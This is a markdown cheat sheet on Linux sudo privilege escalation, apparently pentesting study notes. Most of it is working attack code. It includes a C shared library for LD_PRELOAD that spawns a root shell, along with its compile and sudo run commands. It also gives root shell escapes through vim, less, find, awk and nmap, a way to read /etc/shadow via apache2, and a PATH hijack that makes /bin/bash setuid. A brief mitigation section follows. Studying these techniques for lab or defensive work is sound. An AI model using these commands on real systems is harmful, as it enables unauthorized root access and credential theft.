 # **Advanced Sudo Privilege Escalation Techniques**  
*(Comprehensive Notes on Exploiting Sudo Misconfigurations)*  

---

## **1. Understanding Sudo Permissions**
### **Key Commands**  
| Command | Description |
|---------|-------------|
| `sudo -l` | List allowed (and forbidden) commands for the current user |
| `sudo -u <user> <command>` | Run a command as a different user |
| `sudo -k` | Invalidate cached credentials (force re-authentication) |

### **Current User’s Sudo Access (No Password)**
The user can run the following commands as **root** without a password:  
```bash
/usr/sbin/iftop      # Network traffic monitoring
/usr/bin/find        # File search utility
/usr/bin/nano        # Text editor
/usr/bin/vim         # Advanced text editor (shell escape possible)
/usr/bin/man         # Manual pages (can execute shell commands)
/usr/bin/awk         # Text processing (can run system commands)
/usr/bin/less        # File viewer (can execute shell commands)
/usr/bin/ftp         # File transfer protocol client
/usr/bin/nmap        # Network scanner (can read files with `--script`)
/usr/sbin/apache2    # Web server (can read files with `-f`)
/bin/more            # Basic file viewer (can execute shell commands)
```

### **Dangerous Environment Variables**
```bash
env_reset  
env_keep+=LD_PRELOAD    # Allows preloading shared libraries (Dangerous!)  
env_keep+=LD_LIBRARY_PATH # Allows custom library path manipulation  
```
→ These can be abused for **privilege escalation** via **code injection**.

---

## **2. Exploiting Sudo Misconfigurations**
### **A. LD_PRELOAD Hijacking (Dynamic Library Injection)**
1. **Create a malicious shared library (`hijack.c`)**  
   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>

   void _init() {
       unsetenv("LD_PRELOAD");  // Avoid infinite loops
       system("/bin/bash -p");  // Spawn a root shell (-p preserves privileges)
   }
   ```
2. **Compile it as a shared object (.so)**
   ```bash
   gcc -fPIC -shared -nostartfiles -o hijack.so hijack.c
   ```
3. **Execute with sudo and LD_PRELOAD**
   ```bash
   sudo LD_PRELOAD=/path/to/hijack.so vim
   ```
   → **Grants a root shell** if `LD_PRELOAD` is allowed.

---

### **B. Shell Escaping from Restricted Binaries**
#### **1. Vim / Nano / Less / More / Man**
- **Vim/Nano**:  
  ```bash
  sudo vim  
  :!sh  # Spawns a shell
  ```
- **Less/More/Man**:  
  ```bash
  sudo less /etc/shadow  
  !/bin/sh  # Escapes to shell
  ```

#### **2. Find Command Abuse**
```bash
sudo find / -exec /bin/sh \; -quit
```
→ Runs `/bin/sh` as root.

#### **3. Awk Command Execution**
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
→ Executes `/bin/sh` as root.

#### **4. Nmap Privilege Escalation**
```bash
sudo nmap --interactive
nmap> !sh
```
→ Escalates to root shell if `nmap` is allowed.

#### **5. Apache2 File Disclosure**
```bash
sudo apache2 -f /etc/shadow
```
→ Displays the first line of `/etc/shadow` (useful for hash extraction).

---

### **C. Exploiting PATH Hijacking**
If a script is run with sudo and does not use absolute paths:  
1. **Find writable directories in PATH**  
   ```bash
   echo $PATH  
   ```
2. **Create a malicious binary with the same name**  
   ```bash
   echo 'chmod +s /bin/bash' > /tmp/fake_command  
   chmod +x /tmp/fake_command  
   export PATH=/tmp:$PATH  
   ```
3. **Run the sudo command**  
   → If it calls an unsafe binary, it executes our malicious version.

---

## **3. Mitigation & Best Practices**
### **How to Secure Sudo Configurations**
1. **Avoid `NOPASSWD`** – Require passwords for all sudo commands.  
2. **Use Full Paths** – Prevent PATH hijacking.  
3. **Restrict Dangerous Binaries** – Remove `vim`, `find`, `awk`, `nmap`, etc.  
4. **Disable `LD_PRELOAD` & `LD_LIBRARY_PATH`**  
   ```bash
   Defaults env_reset  
   Defaults !env_keep  
   ```
5. **Use `sudo -l` Auditing** – Regularly check for weak configurations.  

---

## **4. References**
- **[GTFOBins](https://gtfobins.github.io/)** – Exploitable binaries for privilege escalation.  
- **[Sudo Secure Coding](https://www.sudo.ws/)** – Official security guidelines.  

---

### **Final Notes**
- **Always check `sudo -l` after gaining initial access.**  
- **If `LD_PRELOAD` is allowed, root access is trivial.**  
- **Restricted shells can often be escaped via text editors/viewers.**  

🚀 **Next Steps**: Test these techniques in a controlled lab environment!  

---
